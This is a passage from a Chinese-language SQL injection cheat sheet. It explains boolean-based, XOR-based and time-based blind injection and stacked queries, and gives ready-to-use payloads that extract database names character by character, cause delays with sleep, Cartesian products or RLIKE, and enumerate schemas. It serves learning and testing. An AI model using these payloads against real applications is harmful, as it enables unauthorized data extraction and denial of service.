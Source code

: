 - `LENGTH(_string_)` - 返回字符串长度
- `if(条件,成立,不成立)`
- `SELECT IF(500<1000, "YES", "NO");`

### 基于布尔的盲注（boolean-based blind）

根据页面返回内容不同进行判断

```
?id=1' and 1=1#  页面返回正常
?id=1' and 1=2#  页面返回不正常
```

- 异或`^`(XOR) - 1^1=0 0^0=0

0^1=1 1^1^1=0 1^1^0=0   同为 0，异为 1

```
?id=1^(1=1)^1
?id=1^(ascii(mid(database(),1,1))=98)^1
```

### 基于时间的盲注（time-based blind）

根据页面响应时间判断

`if(ascii(substr(database(),1,1))>100,sleep(1),2=1)`

- `SLEEP(_n_)` - 睡眠 n 秒
- `BENCHMARK(_count_,_expr_)` - 计算`expr`表达式`count`次，用于测试函数或者表达式的执行速度，返回值都是 0，仅仅会执行显示时间
- `笛卡尔积` - 多表查询

```sql
SELECT count(*) FROM information_schema.columns A, information_schema.columns B
```

- `RLIKE` - 利用 SQL 多次计算正则消耗计算资源产生延时效果，通过`rpad`或`repeat`构造长字符串

```sql
SELECT RPAD('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

## 堆叠注入（Stacked Queries）

一次执行多条 SQL 语句，每条语句以`;`结尾。比如后端使用`mysqli_multi_query`函数。由于可以执行其他语句，堆叠注入的危害性更大。

```sql
# 列出数据库
SHOW {DATABASES | SCHEMAS};

# 列出表
SHOW TABLES;

# 查看表结构
SHOW COLUMNS from `tbl_name`;
DESC `tbl_name`;
DESCRIBE `tbl_name`;
```

